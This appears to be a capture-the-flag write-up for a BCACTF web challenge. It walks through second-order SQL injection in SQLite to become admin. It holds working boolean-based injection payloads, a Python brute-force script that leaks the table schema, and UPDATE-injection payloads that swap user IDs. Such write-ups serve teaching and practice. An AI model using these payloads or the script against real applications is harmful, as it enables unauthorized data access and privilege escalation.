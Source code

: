 ```yaml
---
layout: writeup
category: BCACTF
chall_description: 
points: 150
solves: 29
tags: web
date: 2024-06-09
comments: true
---
```


## Description:

This was pretty cool challenge. It was easy to determine that the site is vulnerable to SQLi. But the difficult part was exploiting it to become admin.

## Enumeration:

Adding single " results in following error. 
![Branching](1.jpg)

After few tests I found out its using sqlite and by decoding the cookie we can leak the role table.
```sh
┌──(kali㉿kali)-[~/…/CTF/BCACTF/misc/jailbreak_last]
└─$ echo eyJkYiI6IjFjM2VhODU3ZmY4MWY2ZDAzNDE0NzZlNTNhOTEzZjU3Iiwicm9sZV90YWJsZSI6InJvbGVzXzA1YTk3NDg1ZTE4MDQ0ZDQifQ.ZmTmHg.k3RSxlmOA9a5_Pwf2ZsauCmap5M | base64 -d
{"db":"1c3ea857ff81f6d0341476e53a913f57","role_table":"roles_05a97485e18044d4"}base64: invalid input
```

Query at backend should look something like:
```js
UPDATE users
SET     name = "(User Input)"
WHERE id = 1

```

Payload to check the length of the table SCHEMA. The payload is checking if the second or condition is true or not. ( "" OR 1=1 -- ) should return in 1 as first condition is False as we keeing name empty and 1=1 is True, this will assign the username as 1. ( "" OR 1=0 -- ) But if the second condition is False then the username will become 0. I found its length to be 119.
```
" OR (SELECT LENGTH(sql) FROM sqlite_master WHERE type="table" AND name="roles_843b46a14818cf3e") > 119 --
```

Now to leak the SCHEMA, for some reason SQLMap wasnt workinf well with second order injection and I had to write write the following script to bruteforce.

```python
import requests, string
 
url = "http://challs.bcactf.com:31406/" 
length = 119
leak = ""
# Update the table name and cookie value
role_table = "roles_289ff29f827e6f06"
cookies = {"session": "eyJkYiI6IjBhOTQ3M2U1NGNlZTBkNjc0YzZmODdmYWQzMGI3Yzg0Iiwicm9sZV90YWJsZSI6InJvbGVzXzI4OWZmMjlmODI3ZTZmMDYifQ.ZmTs2w.Mdx1fbM32zrwR8y5cPRbm71s5XA"}
 
for index in range(0,length+1): 
    for char in string.printable:
        # schema leak Query
        payload = f'" OR "{char}"=(SELECT(SUBSTR((SELECT sql FROM sqlite_master WHERE type="table" AND name="{role_table}"),{index},1)) ) --'

        data = {"username":payload} 
        response = requests.post(url+"/set-username", data=data, cookies=cookies)
        output = response.text.split("Your username is ")[1].split(".")[0] 
        if output == "1":
            leak+=char
            print(f"@ {index} Got {char} | Leaked: {leak}  ")
            break
        
print(leak)   
```

This revealed two tables - users and role_* table. Role table has Foreign Key on Update it basically means that the users id will be stuck to roles admin on Update. This is crucial information to exploit.
```js
users: CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT NOT NULL)
role: CREATE TABLE roles_843b46a14818cf3e (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE) 
```

You can use something like following to easily leak the tables.
```
", name=(SELECT GROUP_CONCAT(admin,"|") from roles_57fd80a6ac365e90 WHERE id = 0 ) WHERE id=1 --
```

Users                           Role
-----------------               -----------------           
| id    | name  |               | id    | admin |
-----------------               -----------------
|   0   | admin |               |   0   |   1   |
|   1   | input |               |   1   |   0   |
-----------------               -----------------

Our user id will always remain 1 so only way to become admin is to make admins user id 1.


## Exploitation

1. Make admin id 3
```
    admin" , id = 3 where id=0 -- 
```
2. Make user id 4 and admin id 1
```
    ", id =  CASE WHEN id=1 THEN 4 WHEN id=3 THEN 1 END  WHERE id IN (1,3,4)  --
```

![Branching](2.jpg)

